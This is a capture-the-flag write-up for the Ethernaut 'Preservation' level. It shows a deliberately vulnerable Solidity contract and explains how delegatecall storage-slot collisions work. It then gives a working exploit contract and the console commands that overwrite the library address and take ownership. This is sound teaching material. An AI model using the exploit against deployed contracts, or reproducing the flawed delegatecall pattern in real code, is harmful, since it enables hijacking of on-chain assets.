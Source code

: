 # 16 Preservation

```
This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
Understanding what it means for delegatecall to be context-preserving.
Understanding how storage variables are stored and accessed.
Understanding how casting works between different data types.
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}

```

#### Start 


### (1) `claim ownership`


From `06 Delegation` we learned that

```
when A `delegatecall()` to B, the code runs in contract B scope, 

but when updating storage it updates to contract A scope.

warning the storage structure must be the same
```
We'll talk about `warning the storage structure must be the same`

When you delegatecall to call an external function to change state storage and update your own state storage, there is a big risk. 

The structure of the stroage must be the same

Example: Why stroage must be the same
```
  Contract Preservation   {                                                    Storage            
    address public timeZone1Library;                                          |slot 0|<-|                          
    address public timeZone2Library;                                          |slot 1|  |             When contract Preservation use  LibraryContract.delegatecall()                
    address public owner;                                                     |slot 2|  |             storage it will update  at slot 0 (variable timeZone1Library) in contract Preservation
    uint storedTime;                                                          |slot 3|  |             because variable(storedTime) position Storage in LibraryContract is slot0 
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)")); |slot 4|  |             the variable name is irrelevant
  }                                                                                     |
                                                                                        |
                                                                                        |
                                                                                        |
Contract LibraryContract {                                                    Storage   |                                                                                                   
    uint storedTime;                                                          |slot 0|--|                                          
  }
```
From the example we can see that we want to update the value of the variable `storedTime` , but in fact it will update at `timeZone1Library`

Because it only thinks about the slot position, it doesn't care about the variable name when updating.

let's start

.

.

.



The process to claim Ownership 

- (1)  Create our contract at the same storage structure as the Preservation contract.
       so that we can change the owner at slot 2


  #### This is the code I used 
```
       // SPDX-License-Identifier: MIT
        pragma solidity ^0.8.0;

        contract ExploitLibrary  {
            // structure storage slot
            address public timeZone1Library;   // slot 0
            address public timeZone2Library;   // slot 1
            address public owner;              // slot 2
          
            
            function setTime(uint256 _time)  public{

              // address(uint160(uint256(x))) for convert uint256 -> address
              owner =  address(uint160(_time));
              
            }
        }
```

  - (2) We need to change value address `timeZone1Library` in contract Preservation to the address of our contract.

      
    #### Open Developer Tools (F12)

    type `await contract.setFirstTime('our contract address ')` and confirm transaction

    
    Check to make sure it becomes our address

     type `await web3.eth.getStorageAt(await contract.address,0)`  and you will see that now is our contract address.

  - (3) We will call  `function setFirstTime(uint _timeStamp) public `  again because it is now set owner change.

     type `await contract.setFirstTime('our address')` and confirm transaction



     


  
Click button Submit instance and confirm transaction 

# !!! we passed !!!





